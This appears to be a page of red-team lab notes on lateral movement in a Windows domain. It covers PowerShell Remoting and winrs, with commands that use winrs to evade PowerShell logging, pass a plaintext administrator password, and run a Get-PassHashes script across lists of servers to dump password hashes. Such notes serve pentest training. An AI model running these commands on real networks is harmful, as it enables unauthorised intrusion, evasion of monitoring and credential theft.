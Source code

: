
> [!NOTE] **IMPORTANT**
> Rinse and repeat once you compromise another machine. Do the exact same enumeration from a different user/machine standpoint after trying to privesc

Enabled by default on Server 2012 onwards with a firewall exception and is the recommended way to manage Windows Core servers

You'll have to enable remoting on Desktop Windows machines and Admin privileges are required for that.

### OPSEC OPTION - winrs
PowerShell remoting supports the system-wide transcripts and deep script block logging. We can use `winrs` in place of PSRemoting to evade the logging

```powershell
winrs -r:server1 cmd
```

```powershell
winrs -r:dcorp-mgmt set computername;set username
```

```powershell
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 set username
```

We can also use winrm.vbs and COM objects of WSMan object -
https://github.com/bohops/WSMan-WinRM

### NON-OPSEC OPTION
One-to-One. Interactive. Runs in a stateful and trusted process (`wsmprovhost`)
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv
New-PSSession -ComputerName dcorp-adminsrv
```

Store sessions in variables and connect
```powershell
$adminsrv = New-PSSession -ComputerName dcorp-adminsrv
$adminsrv

Enter-PSSession -Session $adminsrv
```

**One-to-Many**. Known as Fan-out remoting and is non-interactive. This can execute commands and scripts on multiple machines at once. Can be ran as a background job and by default in memory.

```powershell
Invoke-Command
```

Use `-Credential` parameter to pass username:password
```powershell
Invoke-Command -Scriptblock {$env:computername;$env:username} -ComputerName (Get-Content <list_of_servers.txt>)
```

Run local scripts on remote machines
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1  -ComputerName (Get-Content <list_of_servers.txt>)
```

Execute locally loaded functions on remote machine
```powershell 
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```

With Arguments
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

Execute `stateful` commands on target machines
```powershell
$Sess = New-PSSession -Computername Server1
Invoke-Command -Session $Sess -ScriptBlock {ls env:}
Invoke-Command -Session $Sess -ScriptBlock {$env:Username} 
```

